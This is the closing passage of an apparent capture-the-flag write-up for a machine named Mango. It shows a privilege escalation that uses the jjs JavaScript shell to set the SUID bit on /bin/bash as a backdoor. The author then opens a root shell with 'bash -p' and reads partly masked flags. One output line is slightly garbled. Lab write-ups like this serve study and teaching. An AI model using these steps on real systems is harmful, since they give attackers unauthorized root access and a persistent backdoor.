 Slightly modified the command to create a backdoor.

```
admin@mango:/home/admin$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/chmod +s /bin/bash')" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
Warning: The jjs tool is planned to be removed from a future JDK release

jjs> admin@mango:/home/adls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  4  2018 /bin/bash
```

Gained a root shell and read both flags. Hope you enjoyed as much as me :). GGs!

```
admin@mango:/home/admin$ bash -p
bash-4.4# whoami
root

bash-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) egid=0(root) groups=0(root),1001(admin)

bash-4.4# cat /root/root.txt
0d1c8ffd9ae072cb****************

bash-4.4# cat /home/admin/user.txt
7d5bf91826f2f3f5****************
```